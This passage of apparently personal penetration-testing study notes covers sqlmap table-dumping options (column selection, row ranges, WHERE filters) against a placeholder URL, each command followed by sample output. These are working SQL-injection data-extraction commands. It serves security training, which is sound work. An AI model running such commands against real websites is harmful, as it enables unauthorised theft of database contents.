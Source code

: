 The console output shows that the table is dumped in formatted CSV format to a local file, `users.csv`.
>[!Note]
>Apart from default ``CSV``, we can specify the output format with the option `--dump-format` to HTML or SQLite, so that we can later further investigate the DB in an SQLite environment.

![[Pasted image 20250111175923.png]]
### Table/Row Enumeration
When dealing with large tables with many columns and/or rows, we can specify the columns (e.g., only `name` and `surname` columns) with the `-C` option, as follows:
```bash
$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname

...SNIP...
Database: testdb

Table: users
[4 entries]
+--------+------------+
| name   | surname    |
+--------+------------+
| luther | blisset    |
| fluffy | bunny      |
| wu     | ming       |
| NULL   | nameisnull |
+--------+------------+
```

To narrow down the rows based on their ordinal number(s) inside the table, we can specify the rows with the `--start` and `--stop` options (e.g., start from 2nd up to 3rd entry), as follows:
```bash
$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --start=2 --stop=3

...SNIP...
Database: testdb

Table: users
[2 entries]
+----+--------+---------+
| id | name   | surname |
+----+--------+---------+
| 2  | fluffy | bunny   |
| 3  | wu     | ming    |
+----+--------+---------+
```
### Conditional Enumeration
If there is a requirement to retrieve certain rows based on a known `WHERE` condition (e.g. `name LIKE 'f%'`), we can use the option `--where`, as follows:
```bash
$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"

...SNIP...
Database: testdb

Table: users
[1 entry]
+----+--------+---------+
| id | name   | surname |
+----+--------+---------+
| 2  | fluffy | bunny   |
+----+--------+---------+
```
### Full DB Enumeration